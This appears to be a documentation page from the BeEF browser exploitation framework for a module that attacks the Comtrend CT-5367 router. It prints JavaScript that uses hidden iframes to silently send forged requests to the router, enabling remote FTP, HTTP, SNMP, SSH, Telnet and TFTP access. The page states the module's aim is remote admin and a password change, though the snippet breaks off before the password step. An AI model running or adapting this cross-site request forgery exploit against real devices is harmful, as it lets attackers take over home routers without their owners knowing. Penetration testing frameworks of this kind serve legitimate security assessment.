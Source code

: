 ## Summary

* **Objective**: enable remote admin and change the password on a CT-5367 Router
* **Authors**: bcoles
* **Browsers**: All

* [Code](https://github.com/beefproject/beef/tree/master/modules/exploits/router/comtrend_ct5367_csrf)

## Internal Working

Uses an invisible iframes to change config.

```js
  var gateway = '<%= @base %>';
  var passwd  = '<%= @password %>';
  var timeout = 15;

  var ct5367_iframe1_<%= @command_id %> = beef.dom.createInvisibleIframe();
  ct5367_iframe1_<%= @command_id %>.setAttribute('src', gateway+'scsrvcntr.cmd?action=save&ftp=1&ftp=3&http=1&http=3&icmp=1&snmp=1&snmp=3&ssh=1&ssh=3&telnet=1&telnet=3&tftp=1&tftp=3');

  var ct5367_iframe2_<%= @command_id %> = beef.dom.createInvisibleIframe();
```

## Feedback

